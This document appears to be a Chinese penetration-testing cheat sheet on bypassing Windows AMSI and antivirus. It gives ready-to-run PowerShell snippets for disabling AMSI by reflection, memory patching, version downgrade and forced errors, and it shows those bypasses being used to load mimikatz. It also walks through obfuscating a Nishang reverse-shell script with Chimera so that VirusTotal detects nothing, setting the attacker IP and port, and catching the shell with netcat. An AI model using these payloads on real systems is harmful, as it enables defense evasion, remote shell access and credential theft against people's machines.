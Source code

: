 	Windows 反恶意软件扫描接口 (AMSI)
  #### 方法一 混淆
	$a =[Ref].Assembly.GetType('System.Management.Automation.AmsiUt'+'ils')
	$h="4456625220575263174452554847"
	$s =[string](0..13|%{[char][int](53+($h).substring(($_*2),2))})-replace " "
	$b =$a.GetField($s,'NonPublic,Static')
	$b.SetValue($null,$true)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/720.png)

	或使用以下脚本
	https://github.com/RythmStick/AMSITrigger
	PS >  \AmsiTrigger.ps1 -i .\demo.ps1
  #### 方法二 内存劫持
	https://rastamouse.me/memory-patching-amsi-bypass/
	https://github.com/rasta-mouse/AmsiScanBufferBypass
	https://github.com/crawl3r/FunWithAMSI
	直接编译完使用即可
	[System.Reflection.Assembly]::LoadFile("C:\\Users\\test\\Desktop\\AmsiFun.dll")
	[Amsi]::Bypass()
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/726.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/727.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/728.png)
  #### 方法三 Powershell降级
	$ PowerShell -version 2
  #### 方法四 强制报错
	PS > $mem = [System.Runtime.InteropServices.Marshal]::AllocHGlobal(9076)
	PS > [Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiSession","NonPublic,Static").SetValue($null, $null);[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiContext","NonPublic,Static").SetValue($null, [IntPtr]$mem)
  #### 方法五 内存劫持混淆操作码
	https://gist.github.com/FatRodzianko/c8a76537b5a87b850c7d158728717998#file-my-am-bypass-ps1
	PS > .\my-am-bypass.ps1
	PS > "invoke-mimikatz"
  #### 方法六 反射绕过
	https://gist.github.com/shantanu561993/6483e524dc225a188de04465c8512909
	PS > .\am-bp-reflection.ps1
	PS > "invoke-mimikatz"
  #### 方法七 Nishang
	https://github.com/samratashok/nishang/blob/master/Bypass/Invoke-AmsiBypass.ps1
	PS > Import-Module .\nishang.ps1
	PS > Invoke-AmsiBypass -Verbose
	PS > "invoke-mimikatz"
  #### Powershell脚本混淆绕过amsi和av
	https://github.com/tokyoneon/Chimera
	以下是Invoke-PowerShellTcp.ps1的片段
```shell
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}

$sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
$stream.Write($sendbytes,0,$sendbytes.Length)

$sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
$stream.Write($sendbytes,0,$sendbytes.Length)

```
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/813.png)

	经过Chimera处理后
```shell
              $xdgIPkCcKmvqoXAYKaOiPdhKXIsFBDov = $jYODNAbvrcYMGaAnZHZwE."$bnyEOfzNcZkkuogkqgKbfmmkvB$ZSshncYvoHKvlKTEanAhJkpKSIxQKkTZJBEahFz$KKApRDtjBkYfJhiVUDOlRxLHmOTOraapTALS"()
       # As the station slowly moves into position to obliterate the Rebels, the pilots maneuver down a narrow trench along the station’s equator, where the thermal port lies hidden.
          [bYte[]]$mOmMDiAfdJwklSzJCUFzcUmjONtNWN = 0..65535|%{0}
   # Darth Vader leads the counterattack himself and destroys many of the Rebels, including Luke’s boyhood friend Biggs, in ship-to-ship combat.

  # Finally, it is up to Luke himself to make a run at the target, and he is saved from Vader at the last minute by Han Solo, who returns in the nick of time and sends Vader spinning away from the station.
           # Heeding Ben’s disembodied voice, Luke switches off his computer and uses the Force to guide his aim.
   # Against all odds, Luke succeeds and destroys the Death Star, dealing a major defeat to the Empire and setting himself on the path to becoming a Jedi Knight.
           $PqJfKJLVEgPdfemZPpuJOTPILYisfYHxUqmmjUlKkqK = ([teXt.enCoDInG]::AsCII)."$mbKdotKJjMWJhAignlHUS$GhPYzrThsgZeBPkkxVKpfNvFPXaYNqOLBm"("WInDows Powershell rUnnInG As User " + $TgDXkBADxbzEsKLWOwPoF:UsernAMe + " on " + $TgDXkBADxbzEsKLWOwPoF:CoMPUternAMe + "`nCoPYrIGht (C) 2015 MICrosoft CorPorAtIon. All rIGhts reserveD.`n`n")
            $xdgIPkCcKmvqoXAYKaOiPdhKXIsFBDov.WrIte($PqJfKJLVEgPdfemZPpuJOTPILYisfYHxUqmmjUlKkqK,0,$PqJfKJLVEgPdfemZPpuJOTPILYisfYHxUqmmjUlKkqK.LenGth)
   # An imperial boarding party blasts its way onto the captured vessel, and after a fierce firefight the crew of Leia’s ship is subdued.

```
	VirusTotal报告检测到0个
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/814.png)

	Kali下安装
	sudo apt-get update && sudo apt-get install -Vy sed xxd libc-bin curl jq perl gawk grep coreutils git
	sudo git clone https://github.com/tokyoneon/chimera /opt/chimera
	sudo chown $USER:$USER -R /opt/chimera/; cd /opt/chimera/
	sudo chmod +x chimera.sh; ./chimera.sh --help
	在shells /目录中有几个Nishang脚本和一些通用脚本。所有都已经过测试
	使用脚本之前，请将硬编码的IP地址（192.168.56.101）更改为您的Kali地址。
	/opt/chimera$ sed -i 's/192.168.56.101/<YOUR-IP-ADDRESS>/g' shells/*.ps1
	所有脚本的默认端口为4444。如果需要，再次使用sed进行更改。
	/opt/chimera$ sed -i 's/4444/<YOUR-DESIRED-PORT>/g' shells/*.ps1
	f：输入文件。
	-o：输出文件。
	-g：从脚本中省略几个Nishang特定的特征。
	-v：替换变量名称。
	-t：替换数据类型。
	-j：替代函数名称。
	-i：在每一行中插入任意注释。
	-c：用任意数据替换注释。
	-h：将IP地址转换为十六进制格式。
	-s：替换各种字符串。
	-b：在可能的情况下反引号字符串。
	-e：过程完成后，检查混淆文件。
	举例，nc反弹shell
	nc -v -l -p 4444
	把混淆好的脚本传入目标
	PS> powershell.exe -ep bypass C:\path\to\chimera.ps1
	获得shell
	nc -v -l -p 4444

	listening on [any] 4444 ...
	192.168.56.105: inverse host lookup failed: Host name lookup failure
	connect to [192.168.56.107] from (UNKNOWN) [192.168.56.105] 49725
	Windows PowerShell running as user  on
	Copyright (C) 2015 Microsoft Corporation. All rights reserved.
	
	PS C:\Users\target>
	一些使用说明
	https://github.com/tokyoneon/Chimera/blob/master/USAGE.md
